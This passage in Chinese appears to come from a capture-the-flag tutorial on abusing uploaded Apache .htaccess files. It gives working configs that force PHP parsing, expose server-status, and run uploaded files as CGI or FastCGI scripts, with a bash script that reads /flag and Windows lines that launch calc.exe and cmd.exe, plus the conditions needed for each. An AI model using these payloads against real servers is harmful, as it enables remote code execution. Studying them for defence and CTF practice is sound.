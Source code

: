 解读：Directory指定一个目录，这个目录下的所有文件都交给PHP进行解析，有合法的PHP代码会被执行。

**4. 指定服务器状态解析器**

> pwd:`htaccess/2.1.4/.htaccess`

```
SetHandler server-status
```

解读：这种方式利用了apache的服务器状态信息(默认关闭)，可以查看所有访问本站的记录。

访问的url是`http://ip:host/.htaccess路径/serber-status?refresh=5`。refresh指定刷新时间。

**5. 指定cgi-script解析器，执行文件**

**第一种、CGI启动方式：**

>  pwd:`htaccess/2.1.5/1/.htaccess`

.htaccess:

```
Options +ExecCGI
AddHandler cgi-script .xx
```

linux编辑1.xx(格式要求严格):

```
#! /bin/bash

echo Content-type: text/html

echo ""

cat /flag
```

windows编辑2.xx

```
#!C:/Windows/System32/cmd.exe /c start calc.exe
1
```

解说：Options ExecCGI表示允许CGI执行，如果AllowOverride只有FileInfo权限且本身就开启了ExecCGI的话，就可以不需要这句话了。

利用条件：

- 保证htaccess会被解析，即当前目录中配置了`AllowOverride all或AllowOverride Options  FileInfo。AllowOverride参数具体作用可参考Apache之AllowOverride参数详解。(Require all  granted也是需要的)
- cgi_module被加载。即apache配置文件中有LoadModule cgi_module modules/mod_cgi.so这么一句且没有被注释。
- 有目录的上传、写入权限。

**第二种、FastCGI启动方式**

> pwd:`htaccess/2.1.5/2/.htaccess`

windows下的.htaccess:

```
Options +ExecCGI
AddHandler fcgid-script .abc
FcgidWrapper "C:/Windows/System32/cmd.exe /c start cmd.exe" .abc
```
